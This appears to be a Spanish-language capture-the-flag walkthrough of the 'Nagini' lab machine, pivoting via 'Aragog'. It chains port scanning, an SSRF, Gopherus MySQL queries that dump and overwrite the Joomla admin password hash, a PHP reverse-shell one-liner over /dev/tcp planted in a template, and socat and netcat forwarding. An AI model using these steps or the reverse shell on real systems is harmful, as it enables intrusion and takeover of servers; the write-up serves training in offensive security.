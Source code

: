 [[10.10.0.4 (Aragog)]]
- Pwned #Nagini
`#CSRF` `#HTTP3`
Hacemos un scaneo con [[NMAP]] para ver los puertos abiertos:
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 10.10.0.5`

```python
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Podemos agilizar la búsqueda mas si usamos un secuenciador junto con xargs
`seq 1 65535 | xargs -P 700 -I {} nmap -sT -Pn -p{} -open -T5 -n -v 10.10.0.5 | grep "tcp open"`

Navegaremos a la pagina web que nos muestra que esta levantada en el puerto `80`
Vemos información sobre la web con la herramienta con [[WHATWEB]]
`whatweb http://10.10.0.5/`
```python
http://10.10.0.5/ [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.10.0.5]
```

Vamos a hacer fuzzing sobre la web con la herramienta [[GOBUSTER]]
`gobuster dir -u http://10.10.0.5/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt`
Este nos encontrara los siguientes ficheros
`index.html`
`/joomla`
`note.txt` con el siguiente contenido:
```txt
Hello developers!!


I will be using our new HTTP3 Server at https://quic.nagini.hogwarts for further communications.
All developers are requested to visit the server regularly for checking latest announcements.


Regards,
site_amdin
```

Esto nos indica que se esta usando `HTTP3` que es la tercera versión de HTTP utiliza un puerto UDP
Usaremos la herramienta de quiche con la tool de `./http3-client` como en esta caso no conseguía utilizarla seguí el siguiente paso del video en el que se descubre la ruta:
`/internalResourceFeTcher.php` así que accedemos a ella desde el navegador

Vemos que la URL esta en método get, así que usando la opción 
`?url=` podremos traer al navegador actual por ejemplo llamar a `http://localhost` nos muestra la web del localhost, al igual que podemos cargar la web de la maquina [[10.10.0.4 (Aragog)]] aunque no cargue la imagen. Esto acontece un SSRF (Server Side Request Forgery) y lo podemos usar para enumerar los puertos y servicios internos de la maquina.

Para poder tener conectividad con nuestra maquina atacante lo que haremos sera descargar `socat` y nos lo trasferiremos a la maquina intermedia 192.168.1.23  [[10.10.0.4 (Aragog)]]
Le daremos permisos de ejecución y ejecutaremos la herramienta de la siguiente forma:
`./socat TCP-LISTEN:4343,fork TCP:192.168.1.19:80`
Estamos indicando que todo lo que se pida por el puerto 4343 lo envié a través de la ip de 192.168.1.23  por el puerto 80

En nuestra maquina atacante levantaremos un servidor con python y desde la web de la maquina [[10.10.0.5(Nagini)]] en la url encontrada probamos a acceder a la maquina [[10.10.0.4 (Aragog)]] por el puerto 4343 que es el que le hemos indicado en socat

Ahora desde dentro de la url como tenemos levantado nuestro servidor de python y habilitado todo lo que es el pivoting y el renvió de paquetes intentamos acceder por la url a u8n archivo que creemos en nuestra maquina atacante que se llame `pwned.php` y ver si lo interpreta.

Como no lo interpreta, también encontramos el directorio `/joomla` así que navegamos a el. Usaremo0s la herramienta joomscan para hacer enumeración de vulnerabilidades.
`joomscan -u http://10.10.0.5/joomla/`

La respuesta de la ejecución de esta herramienta nos muestra que esta expuesta la interfaz del administrador `http://10.10.0.5/joomla/administrator/`

También nos encuentra un archivo .bak `http://10.10.0.5/joomla/configuration.php.bak`
Nos lo intentamos descargar para ver su contenido con: `curl -s -X GET http://10.10.0.5/joomla/configuration.php.bak > configuration.php`

Vemos que es un archivo de configuración de la base de datos
Usaremos `gopher` que te permite enumerar bases de datos desde `gopher://` 
Nos clonaremos el repositorio: `git clone https://github.com/tarunkant/Gopherus`
Le damos permisos de ejecución al archivo .py y luego hacemos un enlace simbólico para poder llamarlo desde cualquier parte del sistema: `ln -sf $(pwd)/gopherus.py /usr/local/bin/gopherus`

Ejecutaremos la herramienta con:
`gopherus --exploit mysql` introducimos el nombre de usuario que hemos encontrado en el archivo .bak
Ahora deberemos indicar que QUERY queremos ejecutar por ejemplo, enumerar las bases de datos:
`SHOW databases;`
Y nos muestra una URL a la que podemos acceder desde el navegado donde esta la web que nos permitía inyectar URL en `http://10.10.0.5/internalResourceFeTcher.php`
Tendremos que recargar la pagina varias veces hasta que nos muestre la información, vemos que hay una base de datos llamada joomla, así que ahora enumeraremos las tablas de esa base de datos.
Volvemos a usar el usuario encontrado pero en la QUERY usaremos: `USE joomla; show tables;`

La URL que nos muestra, la volvemos a copiar y la metemos en la pagina de `http://10.10.0.5/internalResourceFeTcher.php` y vemos que hay una tabla de usuarios `joomla_users`

Ahora enumeraremos esa tabla con la misma herramienta y la QUERY: `USE joomla; describe joomla_users;`, vemos que hay columnas de usuario, mail, password, etc...

Nuestra nueva QUERY será: `USE joomla; select name,username,email,password from joomla_users;` y nos mostrara la contraseña del usuario administrador de forma crakeada:
`$2y$10$cmQ.akn2au104AhR4.YJBOC5W13gyV21D/bkoTmbWWqFWjzEW7vay`

Intentaremos crakearlas con [[JOHN THE RIPPER]]: `john --wordlist=/usr/share/wordlists/rockyou.txt hash` 
No vamos a conseguir crakearla así que intentaremos alterar los datos de los usuarios atreves de la herramienta de Gopherus con la siguiente QUERY: `USE joomla; update joomla_users set password='482c811da5d5b4bc6d497ffa98491e38' where username='site_admin';`

El hash de MD5 lo hemos creado a través de la siguiente ejecución: `echo -n "password123" | md5sum` 

Lo volvemos a meter en nuestra web en la que estamos trabajando y nos dice que se ha ejecutado un cambio, ahora en el panel de administración de joomla en la parte del login intentamos acceder con el usuario `site_admin::pasword123` y conseguiremos acceso al panel de administración.

La intrusión se realiza a través de los templates, alojados en la pestaña de Extensions, y se modificara la plantilla de `erro.php`
En la plantilla realizaremos un oneLiner para traernos una bash a nustra maquina atacante, pero como no llega lo tenemos que enviar al nodo mas cercano que en esta caso es [[10.10.0.4 (Aragog)]]:
`system("bash -c'bash -i >& /dev/tcp/10.10.0.4/1111 o>&1'");`

Guardamos el archivo dándole a save. 
Nos conectaremos por SSH a la maquina ARAGOG `ssh root@192.168.1.23`
En nuestra maquina nos pondremos en escucha por el puerto 443 `nc -nlvp 443`

Ahora en la maquina ARAGOG usaremos el socat para redirigir todo el trafico que le entre a ella por el puerto `1111` que lo redirija al `443` de nuestra maquina atacante que es donde estamos nosotros en escucha.



















